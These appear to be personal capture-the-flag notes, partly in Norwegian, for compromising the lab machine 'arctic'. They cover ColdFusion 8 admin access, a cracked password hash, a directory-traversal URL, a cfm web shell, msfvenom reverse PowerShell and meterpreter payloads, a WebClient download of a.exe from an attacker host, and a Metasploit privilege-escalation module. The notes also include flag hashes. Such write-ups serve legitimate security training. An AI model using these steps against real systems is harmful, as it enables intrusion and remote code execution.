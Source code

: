 ## arctic 10.10.10.11

`135/tcp   open  msrpc`

`8500/tcp  open  fmtp`

`49154/tcp open  unknown`

Macromedia ColdFusion MX Server edition 6?

Adobe ColdFusion 8

får login med

`10.10.10.11:8500/CFIDE/administrator/enter.cfm?`

og passord prompt ved

`http://10.10.10.11:8500/CFIDE/wizards/common/_logintowizard.cfm`

[http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/](http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/)

avsløre en mappe. wooooooo

[http://10.10.10.11:8500/CFIDE/adminapi/base.cfc?wsdl](http://10.10.10.11:8500/CFIDE/adminapi/base.cfc?wsdl) for å vise versjon 8.0.1

\#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F\[\[E&gt;\[$\_6& \Q&gt;\[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true

javascript:alert\(hex\_hmac\_sha1\(document.loginform.salt.value,document.loginform.cfadminPassword.value\)\)

51681279BE771DE147003FBA6A6E4E557F833282

sha1 decrypt = **happyday**

debugging and logging. add scheduled task -&gt; upload cfm shell

[https://jumpespjump.blogspot.no/2014/03/attacking-adobe-coldfusion.html](https://jumpespjump.blogspot.no/2014/03/attacking-adobe-coldfusion.html)

[https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

[http://www.pwnag3.com/2013/04/coldfusion-for-pentesters-part-2.html](http://www.pwnag3.com/2013/04/coldfusion-for-pentesters-part-2.html)

[http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/index.html](http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/index.html)

bra cfm shell her [https://github.com/fuzzdb-project/fuzzdb](https://github.com/fuzzdb-project/fuzzdb)

`whoami > C:\ColdFusion8\wwwroot\out.txt`

**arctic/tolis**

kjøre kommandoer til jeg finner noe gøy

Microsoft Windows **Server** **2008 R2 Standard x64**

/c dir "c:\coldfusion8\wwwroot\CFIDE" &gt; c:\coldfusion8\wwwroot\out.txt

/c dir "c:\coldfusion8\lib\neo-datasource.xml" &gt; c:\coldfusion8\wwwroot\out.txt

passord wsagavF3noHWGA8xe7rd4w

/c dir C:\Users\Administrator &gt; c:\coldfusion8\wwwroot\out.txt - ingenting

/c dir "C:\Users\All Users\Desktop" &gt; c:\coldfusion8\wwwroot\out.txt

/c type "c:\users\tolis\Desktop\user.txt" &gt; c:\coldfusion8\wwwroot\out.txt

```
dir c:\ /s /b /o:gn - viser alle fier i subdirs
```

får ut **02650d3a69a70780c302e146a6cb96f3**

prøvd flere reverse shells uten hell

prøvd å laste opp netcat også, men no dice

jsp shell funker. men bare med netcat?

ssl error i metasploit

tasklist /v

fant en unquoted service path for coldfusion8

`wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """`

`ColdFusion 8 .NET Service                               ColdFusion 8 .NET Service        C:\ColdFusion8\jnbridge\CF8DotNetsvc.exe`

sc stop "ColdFusion 8 .NET Service"

funket ikke

whoami &gt; c:\coldfusion8\wwwroot\out.txt

kanskje applocker er enablet?

LFI?

[http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../Users/Tolis/Desktop/user.txt en](http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../Users/Tolis/Desktop/user.txt en)

% på slutten der

In the cfexec.cfm I executed c:\windows\system32\cmd.exe /c blablabla

1. That blablabla is a command obtanied with:
2. msfvenom -p windows/powershell\_reverse\_tcp lhost=YOURIP lport=PORT -f exe \| strings \| grep powershell &gt; out.ps1 - copypaste this
3. Before you execute that, you should have obviusly a handler on your machine.
4. With this you have a powershell shell like Tolis user.
5. Now you have to obtain meterpreter. Create a payload like this
6. msfvenom -p windows/meterpreter\_reverse\_tcp lhost YOURIP lport=PORT -f exe 
   &gt;
    a.exe
7. Move It to /var/www/html on your system and start your http server.
8. In the powershell shell execute:
9. $client = new-object System.Net.WebClient
10. $client.DownloadFile\("[http://10.10.12.238/a.exe](http://10.10.12.238/a.exe)", "c:\users\tolis\a.exe"\)
11. And now start a handler on your machine and execute on powershell
12. .\a.exe
13. And now you will have a meterpreter session like Tolis.

migrate to some other x64 process.

exploit/windows/local/ms10\_092\_schelevator no work

ms16-032 no work

rotten potato? no work

$client.DownloadFile\("[http://10.10.12.238/a.exe](http://10.10.12.238/a.exe)", "c:\users\tolis\a.exe"

root ce65ceee66b2b5ebaff07e50508ffb90

download c:\Users\tolis\Desktop\user.txt

user.txt **02650d3a69a70780c302e146a6cb96f3**

use exploit suggester with x86 to reveal some which also work on x64

use exploit/windows/local/ms14\_058\_track\_popup\_menu

set target 1 \(x64\)

set payload x64 meterpreter

root.txt.txt **4bf12b963da1b30cc93496f617f7ba7c**



